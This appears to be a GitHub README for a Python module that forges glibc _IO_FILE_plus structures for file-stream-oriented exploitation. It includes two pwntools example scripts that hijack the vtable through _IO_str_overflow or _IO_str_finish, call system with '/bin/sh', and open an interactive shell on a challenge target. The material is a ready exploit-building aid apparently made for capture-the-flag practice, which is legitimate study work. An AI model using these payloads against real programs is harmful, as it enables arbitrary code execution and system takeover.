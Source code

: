 # create-_IO_FILE.py
Create _IO_FILE structure and create payload _IO_str_overflow() and _IO_str_finish().

This module creates _IO_FILE_plus structure.

And if you want to payload, you call `set_IO_str_overflow()` or `set_IO_str_finish()`.

## How to use

If you want to call `_IO_str_oveflow()`, you have to use function `set_IO_str_overflow()` and this function return payload that is _IO_FILE_plus structure.

For example, follow the code.

```python
from pwn import *
import _IO_FILE

p = remote("./challenge")
# Leak libc_base and get gadget system, binsh ...

io_file = _IO_FILE._IO_file_plus()
payload = io_file.set_IO_str_overflow({"_lock" : p64(fake_lock),
                                        "_IO_write_ptr" : p64(binsh),
                                        "_IO_buf_end" : p64(binsh),
                                        "vtable" : p64(_IO_str_overflow_addr),
                                        "jump": p64(system)
                                    })
print(payload)

p.sendline(payload)
p.interactive()
```


Or if you want to call `_IO_str_finish()`, follow code.

```python
from pwn import *
import _IO_FILE

p = remote("./challenge")
# Leak libc_base and get gadget system, binsh ...

io_file = _IO_FILE._IO_file_plus()
payload = io_file.set_IO_str_finish({"_lock" : p64(fake_lock),
                                        "_IO_write_end" : p64(binsh),
                                        "_IO_buf_base" : p64(binsh),
                                        "vtable" : p64(_IO_str_finish_addr),
                                        "jump" : p64(system)
                                    })
print(payload)

p.sendline(payload)
p.interactive()
```
